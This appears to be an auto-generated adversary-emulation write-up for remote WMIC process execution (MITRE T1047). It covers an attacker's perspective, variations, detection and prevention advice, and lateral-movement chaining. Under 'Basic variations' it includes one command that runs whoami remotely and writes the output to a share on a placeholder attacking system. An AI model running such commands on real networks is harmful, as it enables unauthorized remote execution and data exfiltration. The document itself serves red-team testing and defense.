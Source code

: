 
# Auto-Generated

#### Metadata

- *Prelude ID*: 661efd66-d876-41de-88ee-ba9ec4328154
- *MITRE Technique ID*: [T1047](https://attack.mitre.org/techniques/T1047/)

### A hacker's perspective

Windows Management Interface Command (WMIC) is a powerful "live-off-the-land" binary for interacting with WMI. Knowingthat I am able to execute WMI commands against remote systems tells me several things about my current permissionsand how the target host is configured. I know, first of all, that my user has requisite privileges to execute commandsremotely, which can allow me to move laterally in a number of ways. Secondly, I can make the assumption that remotehosts are Distributed Component Object Model (DCOM) accessible, which lets me know I have a possible execution mechanismon that host.

### Expected output

Short response indicated a (Win32_Process)->Create() was successful on the remote system with a return value of 0.

### Basic variations

This command can easily be modified for both local and remote discovery. With WMIC, we could also query other WMIclasses like Win32_ComputerSystem or Win32_Share to discover more about the system. It is also possible to execute moreintricate commands to get a response by using a technique like 'process call create "cmd.exe /c whoami >> \\<ATTACKING SYSTEM>\<PUBLIC SHARE>\cmd_response.txt"'.

### Prevent + Detect

Capturing PowerShell and command-line input would allow defenders to see calls to the WMIC binary, which might be suspiciousdepending upon the environment. Additionally, consider disabling DCOM access so that WMIC cannot be used to executecode through DCOM remotely. The Windows firewall will block DCOM access by default as well, so review domain GroupPolicy Objects (GPOs) to ensure that Windows firewall is enabled and configured to block inbound DCOM.

### How it is chained

An attacker that is testing their ability to execute commands/process on remote systems is almost certainly lookingto move laterally to a new target. Likely next steps would be staging tools on the remote system (T1570) via SMB oranother innocous protocol, then executing the staged payload with WMIC over DCOM (T1021.003) or WinRM (T1021.006).
